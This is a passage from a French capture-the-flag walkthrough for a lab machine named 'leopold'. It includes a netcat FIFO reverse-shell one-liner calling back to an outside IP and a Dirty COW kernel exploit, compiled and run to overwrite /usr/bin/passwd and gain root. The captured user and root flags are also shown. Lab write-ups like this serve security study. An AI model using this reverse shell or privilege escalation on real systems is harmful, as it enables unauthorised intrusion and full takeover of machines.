 ~~~bash
Public
Templates
Videos
id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)
~~~

Le shell est instable, nous allons donc en créer un plus stable : 

~~~bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.122.26 8888 >/tmp/f
~~~

> Source : [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Nous voilà avec le flag user : **924adc9f3f14672ab03903** 

En regardant un peu la version du noyau installé nous découvrons ceci : 

~~~bash
Linux leopold 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux
~~~

Il semble donc que notre machine soit vulnérable à la faille `Dirty Cow`, utilisons cet [exploit](https://www.exploit-db.com/raw/40616) : 

Pour l'utiliser nous devons le compiler puis le lancer : 

~~~bash
$ gcc dirtycow.c -pthread
gcc dirtycow.c -pthread
dirtycow.c: In function ‘procselfmemThread’:
dirtycow.c:53:9: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [enabled by default]
In file included from dirtycow.c:7:0:/usr/include/unistd.h:335:16: note: expected ‘__off_t’ but argument is of type ‘void *’                       
dirtycow.c: In function ‘main’:
dirtycow.c:96:5: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘__off_t’ [-Wformat]
$ ls
ls
a.out      Desktop     Documents  examples.desktop  Music     Public     Videos           browse.sh  dirtycow.c  Downloads  flag.txt          Pictures  Templates                   
$ ./a.out
./a.out
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 41292
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@leopold:/home/leopold# id
id
uid=0(root) gid=1000(leopold) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare),1000(leopold)
root@leopold:/home/leopold# ls /root
ls /root
flag.txt
root@leopold:/home/leopold# cat /root/flag.txt
cat /root/flag.txt
53b0af358e2bf5cef9883f25fc
root@leopold:/home/leopold#
~~~
